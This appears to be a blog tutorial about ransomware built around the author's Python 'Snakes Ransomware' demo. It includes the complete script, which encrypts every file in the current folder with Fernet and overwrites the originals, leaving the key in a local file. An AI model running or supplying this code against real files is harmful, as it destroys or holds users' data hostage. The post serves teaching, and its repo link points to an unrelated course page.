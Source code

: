 ```yaml
---
title: "Understanding Ransomware and a Dive into Snakes Ransomware"
meta_title: ""
description: "Ransomware"
date: 2022-05-16T05:00:00Z
image: "/images/snakes-ransomware.png"
categories: ["Project","Ransomware", "Python"]
author: "Krishna Chaitanya"
tags: ["snakes ransomware", "ransomware"]
draft: false
---
```

## What is Ransomware?

Ransomware is a type of malicious software designed to block access to a computer system or encrypt its data until a sum of money, or ransom, is paid. It’s a form of cyber extortion that has become increasingly prevalent, targeting individuals, businesses, and even government organizations. Once infected, victims are often left with a grim choice: pay the ransom to regain access to their files or risk losing them forever.

### How Ransomware Works

Ransomware typically spreads through phishing emails, malicious websites, or software vulnerabilities. When the malware is executed, it begins encrypting files on the victim's system, rendering them inaccessible. A ransom note is then displayed, demanding payment in exchange for the decryption key.

The use of ransomware has evolved over the years, with cybercriminals employing more sophisticated techniques to avoid detection and increase their chances of receiving payment. Unfortunately, even after paying the ransom, there’s no guarantee that the files will be restored.

## Introduction to Snakes Ransomware

Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.

### Features of Snakes Ransomware

- **File Encryption:** Encrypts all files in a specified folder.
- **Key Generation:** Creates a unique key for each encryption process, which is crucial for decryption.
- **File Decryption:** Provides a way to decrypt the previously encrypted files using the generated key.

## How to Use Snakes Ransomware

### Step 1: Installation

First, ensure you have all the required dependencies installed. You can do this by running the following command in your terminal:

```bash
pip install -r requirements.txt
```

### Step 2: Encryption Process

To encrypt files within a target folder:

1. **Copy the Encryption Script:**
   - Place the `snakes-encrypt.py` file into the folder you want to encrypt.

2. **Execute the Script:**
   - Open a terminal and navigate to the folder containing the script.
   - Run the following command:
   
     ```bash
     python snakes-encrypt.py
     ```

3. **Encryption Completion:**
   - After execution, all files in the folder will be encrypted, and a key file named `snakes-key.key` will be generated. This key is essential for decrypting the files.

### Step 3: Decryption Process

To decrypt the files:

1. **Copy the Decryption Script:**
   - Place the `snakes-decrypt.py` file in the folder containing the encrypted files.

2. **Add the Encryption Key:**
   - Ensure the `snakes-key.key` file is in the same directory as the decryption script.

3. **Execute the Decryption Script:**
   - Run the following command in your terminal:
   
     ```bash
     python snakes-decrypt.py
     ```

4. **Decryption Completion:**
   - The encrypted files will be restored to their original state.

## How Snakes Ransomware Was Created

Creating Snakes Ransomware involved a deep dive into cryptography and file handling in Python. The key aspects of the program include:


### **Encryption Script Explanation**

This script is designed to encrypt all files in the current directory, except for the encryption script itself and the key file.

#### **1. Importing Necessary Libraries:**
```python
import os
from cryptography.fernet import Fernet
```
- `os`: Used to interact with the operating system for file operations.
- `cryptography.fernet`: A symmetric encryption method from the `cryptography` library, which is used to encrypt and decrypt files.

#### **2. Listing Files to Encrypt:**
```python
files = []

for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```
- The script lists all files in the current directory.
- It excludes the encryption script (`snakes-encrypt.py`) and the key file (`snakes-key.key`) to prevent them from being encrypted.

#### **3. Generating the Encryption Key:**
```python
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)
```
- A new encryption key is generated using `Fernet.generate_key()`.
- This key is saved in a file called `snakes-key.key`. This key is essential for decrypting the files later.

#### **4. Encrypting the Files:**
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)
```
- The script loops through each file in the `files` list.
- It reads the contents of each file in binary mode (`"rb"`).
- The contents are encrypted using the generated key.
- The encrypted contents are then written back to the original file in binary mode (`"wb"`), replacing the original contents with the encrypted data.

### **Complete Encryption Script**

Here's the complete encryption script with comments for clarity:

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# List of files to be encrypted
files = []

# Identify files to encrypt, excluding the script and key files
for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print("Files to be encrypted:", files)

# Generate encryption key and save it to a file
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("Encryption completed.")
```


## Conclusion

Ransomware remains one of the most significant threats in cybersecurity today. By understanding how it works through projects like Snakes Ransomware, we can better prepare ourselves to defend against such attacks. Remember, the Snakes Ransomware project is strictly for educational purposes, and I strongly discourage any malicious use of this knowledge.

For more insights into cybersecurity and programming, stay tuned to Krishna-Blogs!

---
[Github Repo](https://cs50.harvard.edu/python/2024/) -- For referance

Contact: ekrishnachaitanya2004@gmail.com 'or'
        snakesnnetworks@gmail.com

